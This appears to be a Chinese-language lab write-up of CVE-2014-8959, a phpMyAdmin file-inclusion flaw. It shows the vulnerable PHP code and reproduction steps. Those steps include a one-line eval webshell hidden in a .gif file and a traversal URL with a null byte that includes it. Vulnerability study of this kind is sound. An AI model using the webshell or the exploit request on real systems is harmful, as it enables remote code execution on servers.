

# CVE-2014-8959

CVE-2014-8959是phpMyAdmin的一个任意文件包含漏洞。

## 影响版本

- 4.0.x     4.0.10.6以下
- 4.1.x     4.1.14.7以下
- 4.2.x     4.2.12以下

## 漏洞成因

`libraries/gis/pma_gis_factory.php`的 `$type_lower`变量未过滤，直接`include_once`导致的任意文件包含

```php
class PMA_GIS_Factory
{
    /**
     * Returns the singleton instance of geometric class of the given type.
     *
     * @param string $type type of the geometric object
     *
     * @return object the singleton instance of geometric class of the given type
     * @access public
     * @static
     */
    public static function factory($type)
    {
        include_once './libraries/gis/pma_gis_geometry.php';

        $type_lower = strtolower($type);
        if (! file_exists('./libraries/gis/pma_gis_' . $type_lower . '.php')) {
            return false;
        }
        if (include_once './libraries/gis/pma_gis_' . $type_lower . '.php') {
            //...
        }
    }
}
```

## Exploit

这个漏洞利用有两个前提：

1. 能登陆phpMyAdmin，满足phpmyadmin的安全检查
2. 需要截断，需要满足下面的要求之一
   - PHP的版本需要小于 5.3.4(参考：[CVE-2006-7243](http://www.cvedetails.com/cve/CVE-2006-7243/))且gpc关闭
   - 利用长文件名截断

为满足上述条件，使用PHP 5.2.17 和 [phpmyadmin 4.0.3](https://files.phpmyadmin.net/phpMyAdmin/4.3.0/phpMyAdmin-4.3.0-all-languages.zip)版本进行测试。并在pma同级目录下有一个包含一句话木马的图片文件。

目录结构：

```sh
$ tree -L 1 -F
.
├── 1.gif
├── index.php
├── info.php
└── pma/
```

1.gif内容：

```php
<?php
@eval($_POST[a]);
?>
```

利用步骤：

1. 使用 pmatest/pmatest 作为用户名密码登陆phpMyAdmin
2. 从url中获取token
3. 访问`http://<IP>/pma/gis_data_editor.php?token=effa7667f41b469bde9c43d6e814f9a4&&gis_data[gis_type]=/../../../../1.gif%00`，同时post`a=phpinfo();`



## 参考

- http://bobao.360.cn/learning/detail/113.html
- https://www.phpmyadmin.net/security/PMASA-2014-14/